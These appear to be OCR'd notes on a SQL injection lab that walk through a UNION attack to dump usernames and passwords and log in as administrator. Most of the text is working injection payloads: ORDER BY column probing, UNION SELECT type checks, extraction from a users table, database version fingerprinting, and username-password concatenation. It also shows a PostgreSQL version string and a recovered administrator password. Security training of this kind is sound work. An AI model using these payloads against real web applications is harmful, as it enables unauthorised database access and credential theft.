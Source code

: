 SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user. 

First
Determine the number of columns using ORDER BY
' ORDER BY 1--
' ORDER BY 2--
-----
Second :
Determine the data types of the columns
' UNION select 'a',NULL--
' UNION select NULL,a--
----
Third :
Output data from multiple tables
' UNION select NULL, username from users--
' UNION select NULL, password from users--

' UNION select NULL, @@version--  {Microsoft DB}
' UNION select NULL, version()--  {SQL DB}
------
PostgreSQL 12.10 (Ubuntu 12.10-0ubuntu0.20.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0, 64-bit
------
' UNION select NULL, username || password from users--

administrator 8tfzg5e05mwk3rsbf03v